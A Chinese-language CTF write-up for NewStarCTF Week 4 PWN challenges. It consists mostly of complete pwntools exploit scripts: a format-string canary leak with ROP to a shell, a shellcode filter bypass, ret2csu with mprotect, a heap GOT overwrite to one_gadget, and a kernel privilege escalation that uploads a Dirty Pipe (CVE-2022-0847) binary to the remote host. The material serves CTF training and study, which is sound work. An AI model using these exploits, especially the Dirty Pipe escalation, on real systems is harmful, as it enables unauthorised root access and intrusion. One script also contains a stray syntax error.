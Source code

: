 ```yaml
---
title: NewStarCTF Week4 PWN WP
index_img: img/article/newstarctf/image-20221017112826465.png
excerpt: 由于知道这个比赛比较晚，正式参与比赛是第四周的周三晚上，还差一道堆🐎，没有完成AK(但是拿了四个一血也好爽)。最后一题未解主要原因确实是自己在_IO_File相关利用了解不足，赛后找夜悠师傅拿到了exp，真的好感谢🌹
---
```


## 前言

> 由于知道这个比赛比较晚，正式参与比赛是第四周的周三晚上，还差一道堆🐎，没有完成AK(但是拿了四个一血也好爽)。最后一题未解主要原因确实是自己在_IO_File相关利用了解不足，赛后找夜悠师傅拿到了exp，真的好感谢🌹

![战绩截图](img/article/newstarctf/image-20221017112826465.png)



## Canary

比较简单的一道题，等我开始做题的时候已经有4个解了

### exp

```python
from pwn import *

io = process('./pwn')
# io = remote('node4.buuoj.cn',26078)
context.log_level = 'debug'
# pause()
io.recvuntil('Now answer me, will you v me 50')
io.sendline('%11$p%9$p')
io.recvline()
canary = int(io.recv(18),16)
code_base = int(io.recv(14),16) - 0x840 
success("canary -->"+hex(canary))
success("code_base-->"+hex(code_base))

money = code_base + 0x20206c
payload =  b'%99c%7$n' + p64(money)
pause()
io.recvuntil('What do you want to say to the canary')
io.sendline(payload)
io.recvline()
binsh = code_base + 0x202020
pop_rdi = code_base+0x0000000000000b33 #: pop rdi ; ret
syscall = code_base + 0x9dc
payload = b'a'*0x28 + p64(canary) + b'a'*0x8 + p64(pop_rdi) + p64(binsh) + p64(syscall)
io.sendline(payload)

io.interactive()
```



## OhMyShellcode

一道orw的shellcode题目，题目专门开了一个空间用于放置orw，也比较简单。关键在于第一次读入有个判断，会拦住`\x0f`，但是检测长度并不完全。

### exp

```python
from pwn import *
# io = process('./pwn')
io = remote('node4.buuoj.cn',25430)
context.arch = 'amd64'
# context.log_level = 'debug'

backdoor = 0x233000

io.recvuntil('Show me your magic.')
read = '''mov rsi,0x23301e
mov rax , 0
mov rax , 0
mov rax , 0
syscall
'''
sh = asm(read)
sh2 =asm(shellcraft.open('./flag'))
sh2+=asm(shellcraft.read(3,backdoor+0x100,0x100))
sh2+=asm(shellcraft.write(1,backdoor+0x100,0x100))

io.send(sh)
pause()
io.recvuntil('Good luck!')
payload = b'a'*0x38 + p64(backdoor)
io.sendline(payload)
raw_input()
io.sendline(sh2)
io.interactive()
```



## ret2csu2

做这道题的时候并没有去看第三周的ret2csu，夜悠师傅的评价是这样的，不得不说这个题的gadget还是很漂亮的。

![会玩就行](img/article/newstarctf/image-20221017121338219.png)

第一次payload要改rbp到bss段，同时跳转回`sys_read`，实现对bss写入`ret2csu`的rop调用`mprotect`，以及shellcode布置。

### exp

```python
from pwn import *

# io = process('./pwn')
io = remote('node4.buuoj.cn',29895)
context.arch = 'amd64'
context.log_level = 'debug'
csu_end_addr = 0x40075a
csu_front_addr = 0x400740

mprotect = 0x40067b
mprotect_plt = 0x600fe8
bss = 0x601110
bss1 = 0x601020
leave_ret =0x400681
def csu(rbx, rbp, r12, r13, r14, r15, last):
    payload = p64(csu_end_addr) + p64(rbx) + p64(rbp) + p64(r12) + p64(r13) + p64(r14) + p64(r15)
    payload += p64(csu_front_addr)
    payload += b'a' * 0x38
    payload += p64(last)
    sc = asm(shellcraft.sh())
    payload +=sc
    payload += b'b' *0x40
    payload += p64(bss1-0x8)
    payload += p64(leave_ret)
    io.send(payload)
    # sleep(1)
pause()
io.recvuntil('check it!')
payload = b'a'*0xf0+p64(bss)+p64(0x4006e7)
io.send(payload)
sleep(1)

csu(0,1,mprotect_plt,0x601000,0x1000,0x7,0x6010a0)

io.interactive()ma
```



## 这是堆🐴

这道题由于heap角标检测可以为负，利用一个指向自己的指针实现任意地址写，随后劫持got为one_gadget即可

### exp

```python
from pwn import *

# io = process('./pwn')
io = remote('node4.buuoj.cn',28432)
# context.log_level = 'debug'

libc = ELF('./libc-2.31.so')
heap = 0x6020e0
puts = 0x602018 #-25

def show(idx):
    io.recvuntil(">>")
    io.sendline('4')
    io.recvuntil('Index:')
    io.sendline(str(idx))
    
def edit(idx,text):
    io.recvuntil(">>")
    io.sendline('3')
    io.recvuntil('Index:')
    io.sendline(str(idx))
    io.recvuntil('Content:')
    io.sendline(text)

edit(-12,p64(0x602038))    
show(-12)

# io.recvunti('Content:')
puts = u64(io.recv(6).ljust(8,b'\x00'))
libc_base = puts - libc.symbols['printf']
pause()
success("puts_addr-->"+hex(puts))
success("libc_base-->"+hex(libc_base))

one_gadget = libc_base + 0xe3b01
edit(-12,p64(one_gadget))
io.interactive()
```



## KMario

一道kernel题目，利用CVE-2022-0847实现本地提权。关键在于远端没有gcc，所以只能本地编译好。先把elf转为base64，随后在远端转回elf文件即可。

> POC链接：[CVE-2022-0847-DirtyPipe-Exploits](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits)
>
> 不过我自己做的时候似乎由于elf文件太大，一直传不上去，看了夜悠师傅的exp才发现压缩一下就好，我真是个铸币

### exp

```python
# -*- coding: utf-8 -*-
from pwn import *
import os

context.log_level = 'debug'
cmd = '$ '


def exploit(r):
    r.sendlineafter(cmd, 'stty -echo')
    os.system('gzip -c ./exp2 > ./exp.gz')
    r.sendlineafter(cmd, 'cd /tmp')
    r.sendlineafter(cmd, 'cat <<EOF > exp.gz.b64')
    r.sendline((read('./exp.gz')).encode('base64'))
    r.sendline('EOF')
    r.sendlineafter(cmd, 'base64 -d exp.gz.b64 > exp.gz')
    r.sendlineafter(cmd, 'gunzip ./exp.gz')
    r.sendlineafter(cmd, 'chmod +x ./exp')
    r.sendlineafter(cmd, './exp /pwnmeplz')
    r.interactive()


p = remote('node4.buuoj.cn',25457)
# p = process('./start.sh')
exploit(p)
```

